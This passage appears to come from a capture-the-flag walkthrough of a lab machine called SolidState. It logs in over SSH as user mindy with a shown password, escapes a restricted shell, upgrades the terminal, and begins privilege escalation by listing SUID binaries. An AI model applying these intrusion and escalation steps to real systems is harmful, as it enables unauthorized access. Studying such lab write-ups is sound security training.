 That works 

```bash
❯ ssh mindy@10.10.10.51 bash
mindy@10.10.10.51's password: P@55W0rd1!2@
whaomi
bash: line 1: whaomi: command not found
whoami
mindy
script /dev/null -c bash
Script started, file is /dev/null
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ 
CTRL+Z
stty raw -echo; fg
reset xterm
```

Now we have a bash

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export SHELL=/bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ echo $SHELL
/bin/bash 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export TERM=xterm
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ echo $TERM
xterm
```

## Privilege escalation

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ find \-perm -4000 2>/dev/null
./bin/su
./bin/mount
./bin/fusermount
./bin/ping
./bin/ntfs-3g
./bin/umount
./usr/bin/newgrp
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/gpasswd
./usr/sbin/pppd
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/xorg/Xorg.wrap
./usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ 
```
